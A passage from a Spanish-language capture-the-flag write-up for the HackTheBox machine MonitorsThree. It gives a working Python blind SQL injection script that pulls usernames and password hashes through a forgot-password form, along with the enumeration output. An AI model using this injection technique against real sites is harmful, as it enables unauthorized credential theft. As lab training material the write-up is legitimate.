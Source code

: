 Vemos que hay 4 usuarios en el sistema.

Modificando el script detectamos que hay un usuario `dthompson`
```shell
Trying payload: dthompsonz
Final sequence found: dthompson
```

Podemos ir jugando con la variable `characters` en el script y eventualmente descubrimos los usuarios
```shell
Trying payload: jandersonz
Final sequence found: janderson
```

```shell
Trying payload: mwatsont
Final sequence found: mwatson
```

La lista de usuarios es:
- admin
- dthompson
- janderson
- mwatson

Podemos modificar el payload del script para ir seleccionando el usuario al que queremos dumpear el hash:
```python
import requests
import string

URL = "http://monitorsthree.htb/forgot_password.php"

def do_request(payload):
    sqli_payload = "' or username=(select username from users where password like '<REPLACE>%' and username = 'dthompson')-- -"
    r = requests.post(URL, data={'username': sqli_payload.replace("<REPLACE>", payload)})
    if 'Successfully' in r.text:  # Ajusta esto según la respuesta que indique un éxito
        return True
    return False

def sqli():
    characters = string.ascii_lowercase + string.digits
    #characters = "bcefghikmnlopqrsuvwxyzadjABCDEFGHIJKMNLOPQRSTUVWXYZ1234567890"
    found = ""
    
    while True:
        for char in characters:
            payload = found + char
            print(f"Trying payload: {payload}")  # Opcional: para ver qué se está probando
            if do_request(payload):
                found += char
                print(f"Found valid sequence: {found}")
                break
        else:
            # Si no encontramos ningún carácter válido, hemos terminado
            print(f"Final sequence found: {found}")
            break

if __name__ == "__main__":
    sqli()
```
